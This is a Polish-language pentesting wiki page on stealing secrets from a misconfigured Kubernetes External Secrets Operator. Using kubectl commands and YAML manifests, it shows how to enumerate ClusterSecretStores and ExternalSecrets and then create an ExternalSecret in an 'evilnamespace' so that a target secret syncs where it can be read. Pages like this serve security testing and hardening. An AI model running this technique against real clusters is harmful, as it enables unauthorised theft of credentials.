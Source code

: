 # External Secret Operator

**Oryginalnym autorem tej strony jest** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ta strona zawiera wskazówki dotyczące tego, jak możesz ukraść sekrety z niewłaściwie skonfigurowanego ESO lub aplikacji, która używa ESO do synchronizacji swoich sekretów.

## Zastrzeżenie

Technika pokazana poniżej może działać tylko wtedy, gdy spełnione są określone okoliczności. Na przykład zależy to od wymagań potrzebnych do umożliwienia synchronizacji sekretu w przestrzeni nazw, którą posiadasz / skompromitowałeś. Musisz to ustalić samodzielnie.

## Wymagania wstępne

1. Utrzymanie w klastrze kubernetes / openshift z uprawnieniami administratora w przestrzeni nazw
2. Dostęp do odczytu przynajmniej do ExternalSecret na poziomie klastra
3. Ustal, czy są wymagane jakiekolwiek etykiety / adnotacje lub członkostwo w grupie, które pozwalają ESO na synchronizację twojego sekretu. Jeśli masz szczęście, możesz swobodnie ukraść dowolny zdefiniowany sekret.

### Zbieranie informacji o istniejącym ClusterSecretStore

Zakładając, że masz użytkownika, który ma wystarczające uprawnienia do odczytu tego zasobu; zacznij od wymienienia istniejących _**ClusterSecretStores**_.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Załóżmy, że znalazłeś ClusterSecretStore o nazwie _**mystore**_. Kontynuuj, enumerując jego powiązane externalsecret.
```sh
kubectl get externalsecret -A | grep mystore
```
_Ten zasób jest ograniczony do przestrzeni nazw, więc jeśli nie wiesz, której przestrzeni nazw szukać, dodaj opcję -A, aby przeszukać wszystkie przestrzenie nazw._

Powinieneś otrzymać listę zdefiniowanych externalsecret. Załóżmy, że znalazłeś obiekt externalsecret o nazwie _**mysecret**_, zdefiniowany i używany przez przestrzeń nazw _**mynamespace**_. Zbierz trochę więcej informacji na temat tego, jakiego rodzaju sekret on przechowuje.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Zbieranie elementów

Stąd możesz uzyskać nazwę jednego lub wielu sekretów (tak jak zdefiniowano w zasobie Secret). Otrzymasz wynik podobny do:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Jak dotąd mamy:

- Nazwa ClusterSecretStore
- Nazwa ExternalSecret
- Nazwa sekretu

Teraz, gdy mamy wszystko, czego potrzebujemy, możesz stworzyć ExternalSecret (a w razie potrzeby zaktualizować/stworzyć nową Namespace, aby spełnić wymagania potrzebne do synchronizacji nowego sekretu):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Po kilku minutach, jeśli warunki synchronizacji zostały spełnione, powinieneś być w stanie zobaczyć wyciekły sekret w swoim przestrzeni nazw.
```sh
kubectl get secret leaked_secret -o yaml
```
## Odniesienia

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
